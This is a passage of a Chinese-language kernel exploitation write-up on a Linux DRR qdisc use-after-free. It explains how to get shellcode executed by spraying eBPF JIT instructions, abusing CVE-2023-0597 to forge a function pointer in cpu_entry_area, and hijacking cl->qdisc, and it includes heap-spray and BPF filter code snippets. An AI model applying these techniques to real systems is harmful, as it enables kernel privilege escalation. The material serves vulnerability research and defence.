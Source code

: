   先来看一下 USE 点，通过 sendmsg 堆喷可以控制 cl 的内容。

```plain
static int drr_enqueue(struct sk_buff *skb, struct Qdisc *sch,
               struct sk_buff **to_free)
{
    unsigned int len = qdisc_pkt_len(skb);
    struct drr_sched *q = qdisc_priv(sch);
    cl = drr_classify(skb, sch, &err);
    first = !cl->qdisc->q.qlen;
    err = qdisc_enqueue(skb, cl->qdisc, to_free);
    return err;
}
```

  qdisc\_enqueue 里面会调用 cl->qdisc->enqueue，作者利用一些技巧在不泄漏地址随机化的情况下在内核中执行 shellcode

1.  堆喷 ebpf，利用 ebpf 指令的操作数在 内核可控位置（sc\_addr）布置 shellcode
2.  利用 CVE-2023-0597 在 cpu\_entry\_area（内核地址固定）处伪造 qdisc->enqueue 到 sc\_addr
3.  占位 cl 劫持 cl->qdisc 到 cpu\_entry\_area
4.  qdisc\_enqueue 调用函数指针跳转到 sc\_addr 执行 shellcode.

  ‍

### 堆喷 shellcode

  用户态可以通过 setsockopt 分配

```plain
struct sock_fprog prog = {
        .len =  TSIZE,
        .filter = filter,
    };
    for(int i=0;i<NUM;i++){
        int fd[2];
        SYSCHK(socketpair(AF_UNIX,SOCK_DGRAM,0,fd));
        SYSCHK(setsockopt(fd[0],SOL_SOCKET,26,&prog,sizeof(prog)));
    }
```

  filter 里面就是一堆的 ebpf 指令

```plain
struct sock_filter table[] = {
        {.code = BPF_LD + BPF_K, .k = 0xb3909090},
        {.code = BPF_LD + BPF_K, .k = 0xb3909090},
        .....................
};
```

  上述指令生成 jit 后的代码如下：

```plain
b8 90 90 90 b3    mov eax, 0xb3909090
b8 90 90 90 b3    mov eax, 0xb3909090
```
